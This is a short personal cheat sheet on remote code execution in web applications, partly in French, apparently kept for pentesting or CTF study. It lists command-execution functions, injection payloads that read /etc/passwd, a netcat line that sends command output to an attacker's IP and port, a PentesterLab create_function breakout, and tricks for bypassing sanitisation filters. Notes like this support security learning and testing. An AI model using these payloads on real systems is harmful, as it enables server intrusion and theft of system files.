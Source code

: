 # RCE

## Generalities

* I'm not sure if it stands for _**Remote Code Execution**_ or _**Remote Command Execution**_
* It allows us to execute commands on the server

## Language specifics to run commands

* PHP
  * `system(<command>)`
* Python
  * `os.system(<command>)` and variants
  * Do that inside an `str()`
  * If you need to import os.system, use this function in str\(\) : `__import__('os').system(...)`
* Ruby
  * `command`

## General tips & trick

* A basic OS command for test is `uname` \(but i suppose it would work only on a linux system\)
* If the result isn't reflected, use `sleep` or pipe it to nc to send it back to you `whoami | nc <ip> <port>`
* When your payload is included inside a string, **use concatenation** : `" . system('cat /etc/passwd') ."`
* Don't forget to **urlencode**
* If some characters seems to be sanitized when the request first arrive, try to base64 encode them.Since the code you inject is executed, you can make the server decode it the moments it uses it.
* Bypass sanitation :
  * If the `/` is sanitize, you can usually get it by echoing the home directory `echo $HOME`
  * Si un autre caractère est sanitize et qu'il existe dans une variable d'env, on peut faire ça :
    * `echo ${ENV:13:1}` Le 1er nombre étant la position du char et le second le nombre à récupérer. Remplacer ENV par le nom de var d'env bien sûr
  * On peut aussi utiliser `printf "\x41"` en remplacer 41 par le nombre hexa correspondant

## PHP specific tips and tricks

* If you've got input reflected into the html page, try to inject `<?php phpinfo(); ?>`
* Try to get warnings instead of errors as they won't stop the execution flow
* PHP source code is available, which is useful to see how you can break out of a function
* In php, dev usually sort either by using sql's `order by` or php's `usort`. And in usort, they often used a function created with `create_function` \(however it's now deprecated\)
  * In an example using usort and then create\_function, the easiest is to try and break out create\_function, even more so since we can have it's source code. This is the pentesterlab payload that would break it \(Essential - Code Execution 2\) : `?order=id);}system('cat /etc/passwd');//`. I thinks that stems from the fact that it's used in a `sprintf` as a `%s`.
* It's been deprecated in 5.5 and removed in 7, but you could use the regex modifier `/e` to make `preg_replace` evaluate the replacement before using it :  `www.example.com/?replacement=phpinfo()&pattern=/hello/e&base=hello`

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=jkJWA_CWrQs)
* Misc Research


